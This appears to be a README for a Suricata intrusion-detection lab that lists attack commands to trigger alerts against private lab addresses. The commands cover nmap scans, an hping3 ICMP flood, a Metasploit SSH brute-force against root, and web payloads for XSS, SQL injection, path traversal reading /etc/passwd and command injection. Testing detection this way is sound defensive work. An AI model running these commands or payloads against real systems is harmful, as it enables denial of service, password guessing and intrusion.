 # Lab Suricata - Tests IDS
## 1. Network-Based Attacks

### NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

### NMAP UDP SCAN :
```bash
nmap -sU 192.168.100.10
```

### ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

### Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

### SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

## 2. Web-based



### XSS (Cross-Site Scripting)
```bash
<script>alert("test")</script>

```

### SQL Injection
```bash
http://192.168.100.10/vulnerabilities/sqli/?id=1' OR 1=1#&Submit=Submit

```

### Directory Traversal
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### File Inclusion
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### Command Injection
```bash
; ls
```
